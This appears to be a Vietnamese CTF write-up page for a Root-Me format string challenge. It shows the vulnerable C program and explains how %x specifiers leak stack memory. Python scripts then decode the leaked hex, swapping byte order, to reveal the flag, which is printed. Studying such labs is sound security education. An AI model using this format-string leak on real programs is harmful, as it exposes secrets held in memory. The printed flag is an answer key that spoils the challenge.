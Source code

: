 ```yaml
---
cover: ../../.gitbook/assets/image.png
coverY: 0
---
```


# 🎰 App - System

Note : A JOURNEY TO GAIN KNOWLEDGE

## ELF x86 - Format string bug basic 1

chall:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Work flow:

* Đầu tiên ta xác định được buffer size 32
* Flag được đọc từ file .passwd được chuyển thành string và ghi vào stack
* Hàm trigger đáng ngờ ở đây chính là printf với argv\[1]
* Thật vậy, khi đọc tài liệu về hàm printf ta thấy điều thú vị sau:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Như vậy tham số đầu tiên luôn là kiểu dữ liệu như %d, %s tương ứng với giá trị theo sau đó
* Nhưng ở đây lại truyền vào hàm printf với các giá trị không kiểm duyệt, dẫn đến hiện trạng nếu ta nhập các kiểu dữ liệu hex %x sẽ khiến hàm trả về các giá trị trong stack(bao gồm địa chỉ các function và flag)

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

*   Để dễ quan sát hơn ta dùng %0x.

    * 0 là padding khi không đủ số lượng
    * 8 là số lượng giá trị hiển thị
    * x là hiển thị giá trị x
    * và kí tụ . để phân cách mỗi 8 kí tự cho dễ quan sát



    <figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
* Như vậy ý tưởng ở đây, ta chỉ việc leak hết các dữ liệu có thể đọc trong stack và tìm cụm có nghĩa

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))

for x in list_hex:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Tuy nhiên do đang ở dạng little-endian, ta có thể viết đoạn script cơ bản sau để chuyển lại big-endian

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))
s = []

for y in list_hex:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    s.append(little_endian)
#print(s)
for x in s:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")

```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

> flag: **Dpa9d6)(Epamd**

## ELF x86 - Format string bug basic 2



